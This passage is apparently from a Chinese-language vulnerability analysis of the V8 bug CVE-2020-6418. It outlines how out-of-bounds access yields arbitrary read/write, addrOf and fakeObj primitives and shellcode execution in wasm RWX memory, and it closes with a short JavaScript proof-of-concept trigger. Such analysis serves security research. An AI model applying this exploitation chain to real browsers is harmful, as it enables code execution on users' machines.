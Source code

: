 得到了任意长度的`double`数组以后，可以利用数组进行进一步的越界读写。

有了越界读写以后就可以构造`AAR`以及`AAW`原语，构造的方式是利用越界读写来找到布置在`oobArray`后面的`BigUint64Array`，然后通过越界写覆盖`BigUint64Array`的`base_pointer`字段以及`external_poiner`来实现任意地址读写原语。

然后是`AddrOf`原语以及`FakeObj`原语的构造，这个和之前的覆盖`object`数组的字段没有差别，只是从以前的覆盖`64`字节变成了现在的`32`字节。

最后就是利用上面的原语来找到`wasm`对象的`rwx`内存，写入`shellcode`，最后触发函数，执行`shellcode`。

![exploit](https://raw.githubusercontent.com/ray-cp/ray-cp.github.io/master/_img/2020-02-28-browser-pwn-cve-2020-6418漏洞分析/exploit.png)

## 其它

在调试的过程中，我有一个疑问就是`poc`中为什么一定要写一个`main`函数来调用`f`函数，`main`函数中除了`f`函数的调用以外没有干任何的事情。我去掉`main`，直接调用`f`函数行不行呢？

```js
let a = [0, 1, 2, 3, 4];
function empty() {}

function f(p) {
  return a.pop(Reflect.construct(empty, arguments, p));
}

let p = new Proxy(Object, {
    get: () => (Object.prototype)
});

function main(p) {
  return f(p);
}

%PrepareFunctionForOptimization(empty);
%PrepareFunctionForOptimization(f);
%PrepareFunctionForOptimization(main);

f(empty);
f(empty);
%OptimizeFunctionOnNextCall(f);
print(f(p));
```
